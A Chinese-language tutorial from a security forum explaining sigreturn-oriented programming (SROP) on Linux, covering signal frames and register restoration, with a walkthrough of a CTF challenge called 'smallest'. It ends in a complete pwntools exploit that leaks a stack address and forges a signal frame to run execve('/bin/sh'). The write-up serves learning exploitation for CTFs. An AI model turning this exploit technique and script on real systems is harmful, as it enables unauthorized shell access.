# SROP攻击流程-先知社区

> **来源**: https://xz.aliyun.com/news/18161  
> **文章ID**: 18161

---

# SROP

## signal机制

1. signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：



* 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
* 内核会为该进程保存相应的上下文，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。需要注意的是，这一部分是在用户进程的地址空间的。之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
* signal handler 返回后，内核会执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。



对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext：

* x86

```
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

* x64

```
struct _fpstate
{
  /* FPU environment matching the 64-bit FXSAVE layout.  */
  __uint16_t        cwd;
  __uint16_t        swd;
  __uint16_t        ftw;
  __uint16_t        fop;
  __uint64_t        rip;
  __uint64_t        rdp;
  __uint32_t        mxcsr;
  __uint32_t        mxcr_mask;
  struct _fpxreg    _st[8];
  struct _xmmreg    _xmm[16];
  __uint32_t        padding[24];
};

struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short __pad0;
  __uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  __extension__ union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

一个给进程发送signal信号的例子：

```
// 接收信号的程序
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

void signal_hand(int signal) {
    printf("bkbqwq received signal %d
", signal);
}

int main() {
    int judge;
    // 设置信号处理函数
    signal(SIGUSR1, signal_hand);
    
    printf("receive fork pid : %d
",getpid());
    printf("Process will send SIGUSR1 to itself in 5 seconds...
");
    scanf("%d",&judge);
    printf("Process will continue after signal...
");

    // 等待一段时间，以便可以看到进程在接收信号后继续执行
    sleep(3);

    return 0;
}
```

发送信号的程序:

```
// 发送signal 信号的程序
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
int main() {
    int pid;
    // 输入要发送信号的进程的pid
    scanf("%d",&pid);
    
    // send signal
    kill(pid, SIGUSR1);
    return 0;
}
```

1. 运行看一下效果：



调试看一下在给yz1发送信号时，进程yz1的反应：

给信号SIGUSR1完整定义：



利用kill -SIGUSR1 pid给进程yz1发送信号：



从新回到yz1调试，此时调试器收到了内核给的信号：



单步步入，该线程就会进入到signal\_hand信号处理函数 来处理信号（直接跳转，操作由内核来完成）：

观察寄存器的变化，观察栈上的变化

额外关注一下函数的调用栈上，\_\_restore\_rt是直接从函数头开始的，说明调用signal\_hand函数的不是 restore\_rt函数，而是内核直接安排在栈上，用来执行完signal\_hand信号处理函数后直接恢复进程原来的上下文，来模仿一个call 指令(将返回地址入栈)



栈上的数据：



在 signal\_hand信号处理函数 处理完成之后会用ret指令，返回到\_\_restore\_rt函数上，在 \_restore\_rt中调用了15号系统调用SYS\_rt\_sigreturn 来恢复进程的上下文：

此时的栈空间上的一些布局就是要恢复的寄存器数据，这里没有了上面 rt\_sigreturn那一段(所以在伪造signal Frame时执行到SYS\_rt\_sigreturn 系统调用，栈上的布局要从uc\_flags开始)：



执行完SYS\_rt\_sigreturn 系统调用后，寄存器的值恢复(rip也被直接恢复)，程序直接返回到 进入signal\_hand信号处理函数前的位置：



在用户成面，对signal Frame没有检查

# SROP的利用原理：

1. 仔细回顾一下内核在 signal 信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在 Signal Frame 中。但是需要注意的是：

* Signal Frame 被保存在用户的地址空间中，所以用户是可以读写的。
* 由于内核与信号处理程序无关 (kernel agnostic about signal handlers)，它并不会去记录这个 signal 对应的 Signal Frame，所以当执行 sigreturn 系统调用时，此时的 Signal Frame 并不一定是之前内核为用户进程保存的 Signal Frame。

所以，可以伪造Signal Frame，并利用sigreturn 系统调用 ，来给寄存器赋值(所以寄存器都能控制)。

## 获取shell

1. 首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个 Signal Frame，如下图所示，这里以 64 位为例子，给出 Signal Frame 更加详细的信息：



当系统执行完 sigreturn 系统调用之后，会执行一系列的 pop 指令恢复相应寄存器的值，当执行到pop rip 时，就会将程序执行流指向 syscall 地址，根据相应寄存器的值，此时，便会得到一个 shell。

## system call chains

1. 上面的例子中，我们只是单独的获得一个 shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可：

* 控制栈指针。
* 把原来 rip 指向的syscall gadget 换成syscall; ret gadget。

如下图所示 ，这样当每次 syscall 返回的时候，栈指针都会指向下一个 Signal Frame。因此就可以执行一系列的 sigreturn 函数调用：



## 条件：

1. 在构造 SROP 攻击的时候，需要满足下面的条件：

* 可以通过栈溢出来控制栈的内容 ==> 为了写入寄存器的值
* 需要知道相应的地址：

* "/bin/sh"
* Signal Frame
* syscall
* sigreturn

* 需要有够大的空间来塞下整个 sigal frame(栈溢出的空间要足够大)

2. 值得一说的是，对于 sigreturn 系统调用来说，在 64 位系统中，sigreturn 系统调用对应的系统调用号为 15，只需要 RAX=15，并且执行 syscall 即可实现调用 syscall 调用。而 RAX 寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说 read 函数的返回值为读取的字节数。

## sigreturn 测试

1. 测试源码：



2. 溢出覆盖栈上的内容，并调用sigreturn 来观察寄存器值的变化：

栈上的布局(0x7ffc08163e38是执行sigreturn系统调用时的栈顶)，和上面Signal Frame，csgss必须赋值为0x33（0b00110011）：



调用前后寄存器的对比：



cs/gs/fs那个字段的低2个字节用来恢复的cs段寄存器（固定为0x0033），如果赋值不是0x0033的话，后续恢复寄存器后执行代码会出问题(寄存器会正常恢复)：



# 例题：

## 1. 题目：春秋杯smallest

1. 题目简短而精悍，只有6条汇编指令：



2. rax ==> 0 对应系统用调用read函数，输入的长度是0x400，地址直接在rsp上，即输入的位置就是返回地址：

先泄漏栈地址，利用read返回值rax(1)来调用系统调用write：

```
# 先泄漏栈地址
SYS_read_ret = 0x00000000004000B0
syscall_ret = 0x0000000004000BE
payload = p64(SYS_read_ret) + p64(syscall_ret) + p64(SYS_read_ret)  # 第一个SYS_read_ret用来控制rax的值 syscall_ret调用write 第二个SYS_read_ret 用来调用write后继续输入
p.send(payload)

payload = b"\xb3"
p.send(payload)
stack_addr = u64(p.recv()[0x00002d0:0x00002d0+8])
success("stack_addr ==> " + hex(stack_addr))
```

第一个SYS\_read\_ret，从新去执行read系统调用：



输入的长度为1，rax返回值为1：



从而执行write系统调用，来泄漏栈地址，ret衔接到SYS\_read\_ret再来输入：



伪造sigal frame写入栈上，控制好到栈顶的距离：

```
# 构造frame,表示execv("/bin/sh",0,0)
frame = SigreturnFrame()
frame.rax = constants.SYS_execve    # execve函数的系统编号
frame.rdi = stack_addr - 0x000229   # /bin/sh地址
frame.rsi = 0x0
frame.rdx = 0x0
frame.rsp = stack_addr
frame.rip = syscall_ret             # 调用execve函数

frame_payload = p64(SYS_read_ret) + p64(0) +bytes(frame)    # SYS_read_ret用来作为返回值 后续输入控制rax的值来执行SYS_rt_sigreturn
payload = frame_payload + b"/bin/sh\x00"
p.send(payload)
pause()
payload = p64(syscall_ret) + b"\x00"*(15-8) # 通过read的返回值 来控制rax寄存器的值 执行rt_sigreturn
p.send(payload)
```

栈上的布局，sigal frame从第二行开始（因为后面还要ret调用read来控制rax的值，ret衔接到syscall，从而执行rt\_sigreturn系统调用）：



read继续输入，输入长度为15：



返回后 rax = 15，并顺利衔接到syscall指令：



调用到SYS\_rt\_sigreturn系统调用，观察此时栈上的数据：



刚好把前面填充的两个空位移除(ret)掉，下面执行SYS\_rt\_sigreturn系统调用就会从该地址处认为是sigal frame，据此来恢复寄存器的值



执行完SYS\_rt\_sigreturn系统调用，就会直接用栈上的数据恢复寄存器的值(SYS\_rt\_sigreturn系统调用只恢复所有寄存器)，rip等寄存器顺利衔接到上面sigal frame伪造得到execv("/bin/sh",0,0)从而getshell：



最后成功getshell：



3. 完整EXP：

```
from pwn import *
from LibcSearcher import *
# context(os='linux', arch='amd64', log_level='debug')
context.arch = 'amd64'
context.log_level = 'debug'

def debug():
    gdb.attach(p)

choose = 2
if choose == 1 :    # 远程
    success("远程")
    p = remote("node4.anna.nssctf.cn",28111)
    libc = ELF("/home/kali/Desktop/haha/libc-2.27.so")
    # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
    # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')

else :              # 本地
    success("本地")
    p = process("./smallest")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    debug()
    # libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
    # ld = ELF("ld.so") 
pause()

# 先泄漏栈地址
SYS_read_ret = 0x00000000004000B0
syscall_ret = 0x0000000004000BE
payload = p64(SYS_read_ret) + p64(syscall_ret) + p64(SYS_read_ret)
p.send(payload)
pause()
payload = b"\xb3"
p.send(payload)
stack_addr = u64(p.recv()[0x00002d0:0x00002d0+8])
success("stack_addr ==> " + hex(stack_addr))


# # 构造frame,表示read(0,stack_addr,0x400)
# frame = SigreturnFrame()
# frame.rax = constants.SYS_read  # read函数的系统编号
# frame.rdi = 0x0                 # read函数读入的文件 0 ==> 标准输入
# frame.rsi = stack_addr          # read函数写入地址
# frame.rdx = 0x400               # read函数写入的长度
# frame.rsp = stack_addr
# frame.rip = syscall_ret         # 调用read函数

# print(len(frame))
# payload = p64(SYS_read_ret) + p64(0) + bytes(frame)
# p.send(payload)

# pause()
# #通过控制输入的字符数量，调用sigreturn，从而控制寄存器的值
# payload = p64(syscall_ret) + b"\x00"*(15-8) # 通过read的返回值 来控制rax寄存器的值 执行前面的Sigreturn
# p.send(payload)

# 构造frame,表示execv("/bin/sh",0,0)
frame = SigreturnFrame()
frame.rax = constants.SYS_execve    # execve函数的系统编号
frame.rdi = stack_addr - 0x000229   # /bin/sh地址
frame.rsi = 0x0
frame.rdx = 0x0
frame.rsp = stack_addr
frame.rip = syscall_ret             # 调用execve函数

frame_payload = p64(SYS_read_ret) + p64(0) +bytes(frame)    # SYS_read_ret用来作为返回值 后续输入来执行SYS_rt_sigreturn
payload = frame_payload + b"/bin/sh\x00"
p.send(payload)
pause()
payload = p64(syscall_ret) + b"\x00"*(15-8) # 通过read的返回值 来控制rax寄存器的值 执行前面的Sigreturn
p.send(payload)

pause()
p.interactive()
```
